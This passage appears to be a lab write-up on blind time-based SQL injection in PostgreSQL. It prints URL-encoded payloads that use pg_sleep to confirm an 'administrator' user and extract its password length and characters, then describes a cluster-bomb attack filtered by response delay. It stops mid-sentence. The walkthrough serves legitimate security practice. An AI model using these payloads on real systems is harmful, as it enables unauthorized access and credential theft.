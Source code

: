 Then query to check if user administrator exists&#x20;

```
'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users-
#OR
';SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

Now we need to check how long is the password:

```
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
#OR
';SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

So now the query should look something like this:

```
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
#OR
'%3bSELECT+CASE+WHEN+(username%3d'administrator'+AND+SUBSTRING(password,1,1)%3d'a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

I put the cluster bomb, launch the attack and filter out the requests:

<figure><img src="../../.gitbook/assets/image (842).png" alt=""><figcaption></figcaption></figure>

i put a time sleep of 4 seconds so anything in that range and above is probably correct

and for better filter:
